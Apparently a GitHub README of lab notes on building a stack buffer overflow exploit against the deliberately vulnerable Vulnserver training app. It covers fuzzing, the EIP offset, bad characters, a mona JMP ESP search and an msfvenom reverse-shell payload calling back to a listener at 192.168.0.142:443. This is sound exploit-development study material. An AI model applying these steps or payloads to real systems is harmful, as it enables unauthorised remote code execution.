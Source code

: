 # Vulnserver exploit development


## Exploit background

Version: VulnServer
Debugger use: Immunity Debugger
OS: Windows XP SP3 32-bit

## Development steps


1. Use `fuzz.py` to know how many A will get overflow.

    You will see AAAA on EIP `CPU - thread 000006BC` window

2. Use pattern to locate where EIP is

    ```sh
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 396F4338
    [*] Exact match at offset 2006
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/vuln_bbbb.png)

4. Expand the payload from 2100 to 2500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/vuln_490c.png)

5. Bad characters checker, badchars is \x00 only, see code at bad_chars.py

6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    ![hashdump](../../images/vuln_modules.png)

7. Inspect the memory map on `Memory map` windows

    ![hashdump](../../images/vuln_memory_map.png)

8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    ```
    root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    jmp esp 
    nasm > jmp esp
    00000000  FFE4              jmp esp
    ```

9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m essfunc.dll`

    ![hashdump](../../images/vuln_dll_ffe4.png)

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af

    ![hashdump](../../images/vuln_exec_cccc.png)

11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC

    ![hashdump](../../images/vuln_breakpoints.png)

12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/reverse_shell.png) 

## Extra knowledge

!!! Dont attach to an existing process, use open.


Explain of NXCOMPACT, only protect 
https://blog.csdn.net/zhou191954/article/details/38048345
